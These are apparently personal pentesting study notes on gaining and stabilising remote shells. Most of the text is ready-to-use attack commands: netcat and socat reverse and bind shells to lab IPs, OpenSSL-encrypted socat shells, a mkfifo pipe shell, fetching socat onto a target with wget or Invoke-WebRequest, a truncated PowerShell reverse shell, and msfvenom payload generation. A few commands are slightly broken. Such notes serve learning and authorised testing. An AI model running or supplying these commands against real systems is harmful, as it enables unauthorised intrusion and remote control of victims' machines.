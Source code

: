 Netcat
Socat
MSF auxiliary/multi/handler
MSF venom
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
/usr/share/webshells




2 types
Reverse
Bind 





Shell Stabilisation


```
python -c 'import pty;pty.spawn("/bin/bash")'
python2 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm 

control Z then, 

stty raw -echo; fg
```





Py
    The first thing to do is use 

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
    Step two is: 
```export TERM=xterm``` 
-- this will give us access to term commands such as clear.
    
Finally (and most importantly) we will background the shell using 

Ctrl + Z. 

Back in our own terminal we use 

```stty raw -echo; fg```

This does two things: 
	first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
	It then foregrounds the shell, thus completing the process. 

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.


stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>





rlwrap (good for windows)

sudo apt install rlwrap

rlwrap nc -lvnp <port>

linux use Ctrl + Z then stty raw -echo; fg

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>






Socat 

serve this file on py server:

sudo python3 -m http.server 80

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true


upload from host:

linux:
wget 10.6.65.43/socat -O /tmp/socat

windows:
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>










Socat 101


Reverse Shell

listen:
socat TCP-L:443 -

connect:
windows:
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

linux:
socat TCP:10.6.65.43:443 EXEC:"bash -li"




Bind Shell

listen:
socat TCP-LISTENER:443 EXEC:"bash -li"

socat TCP-L:<PORT> EXEC:powershell.exe,pipes


We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

connect:
socat TCP:10.10.221.44:443



target linux only:

any payload:
socat TCP-L:<port> FILE:`tty`,raw,echo=0

if socat installed:
socat TCP:10.6.65.43:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane


If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command



Socat Encrypted Shells


TCP becomes OPENSSL

1- generate certificate
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
leave blank 


2- merge file

```cat shell.key shell.crt > shell.pem```


3- set up listner

```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -```

connect:

```socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash```

bind shell:

target-
```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes```

attacker:

```socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -```


EXAMPLE
```
socat OPENSSL-LISTEN:53,cert=encrypt.pen,verify=0 FILE:`tty`,raw,echo=0 


socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```









PAYLOADS


netcat -e option let you execute a process on connection.


bind shell
```nc -lvnp <PORT> -e /bin/bash```

reverse shell
```nc <LOCAL-IP> <PORT> -e /bin/bash```


linux
```mkfifo /tmp/f; nc -lvnp 10.6.65.43 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f```


windows
needs to be one line:
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length```




msfvennom

```msfvenom -p <PAYLOAD> <OPTIONS>```


```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```


staged - good for ids detection, first stage just connects, second stage downloads code


stageless - most common, all in one, 

meterpreter shell  -  must be used in msf, banned from certain certifications



```<OS>/<arch>/<payload>```

linux/x86/shell_reverse_tcp


camel case = stageless

backslash = staged



```msfvenom --list payloads | grep "<OS>/<arch>/<payload>"```

































